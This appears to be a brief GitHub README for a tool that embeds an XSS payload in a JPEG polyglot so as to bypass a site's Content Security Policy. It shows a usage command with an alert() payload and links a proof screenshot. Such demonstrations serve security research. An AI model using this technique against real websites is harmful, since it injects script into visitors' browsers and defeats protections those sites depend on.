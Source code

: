 # XSS_JPEG_polygot_CSP_Bypass
csp bypass using polygot 

## Usage:
```bash
Usage: exploit_payload_gen.py test.jpg '*/=alert("XSS");/*' injected.jpg
```
### Proof

![readme](https://user-images.githubusercontent.com/29424640/162610833-9b27bca2-80f9-4ff2-8f91-fef45bdb263f.png)

